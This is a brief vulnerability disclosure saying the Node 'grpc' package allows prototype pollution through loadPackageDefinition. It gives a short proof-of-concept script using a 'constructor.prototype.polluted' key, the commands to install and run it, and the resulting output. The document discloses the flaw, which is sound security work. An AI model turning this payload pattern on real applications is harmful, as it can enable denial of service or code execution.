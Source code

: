 # Description

`grpc` native core package is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var grpc =require('grpc')
grpc.loadPackageDefinition({'constructor.prototype.polluted': "Yes! Its Polluted"});
console.log({}.polluted)
```

2. Execute the following commands in another terminal:

```bash
npm i grpc # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
[Function: ServiceClient] { service: 'Yes! Its Polluted' }
```
